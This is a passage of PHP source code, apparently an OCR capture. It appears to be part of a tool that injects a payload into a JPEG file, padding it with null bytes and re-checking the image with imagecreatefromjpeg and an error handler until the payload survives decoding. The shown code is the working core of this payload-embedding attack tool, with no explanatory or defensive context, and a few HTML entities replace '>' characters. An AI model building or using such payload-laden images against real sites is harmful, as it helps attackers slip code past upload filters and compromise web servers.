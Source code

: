                     $miniPayload . 
                    substr(
                        str_repeat("\0",$nullbytePayloadSize).
                            substr($outStream, $startPos, $imageStreamSize),
                        0,
                        $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                            substr($outStream, $stopPos);
            } elseif($correctImage) {
                $outStream = $outStreamTmp;
            } else {
                break;
            }
            if(checkImage('payload_'.$argv[1], $outStream)) {
                die('Success!');
            } else {
                break;
            }
        }
    }
}
unlink('payload_'.$argv[1]);
die('Something\'s wrong');

function checkImage($filename, $data, $unlink = FALSE) {
    global $correctImage;
    file_put_contents($filename, $data);
    $correctImage = TRUE;
    imagecreatefromjpeg($filename);
    if($unlink)
        unlink($filename);
    return $correctImage;
}

function custom_error_handler($errno, $errstr, $errfile, $errline) {
    global $extraBytes, $correctImage;
    $correctImage = FALSE;
    if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
        if(isset($m[1])) {
            $extraBytes = (int)$m[1];
        }
    }
}

class DataInputStream {
    private $binData;
    private $order;
    private $size;

    public function __construct($filename, $order = false, $fromString = false) {
        $this-&gt;binData = '';
        $this-&gt;order = $order;
        if(!$fromString) {
            if(!file_exists($filename) || !is_file($filename))
                die('File not exists ['.$filename.']');
            $this-&gt;binData = file_get_contents($filename);
        } else {
            $this-&gt;binData = $filename;
        }
        $this-&gt;size = strlen($this-&gt;binData);
    }
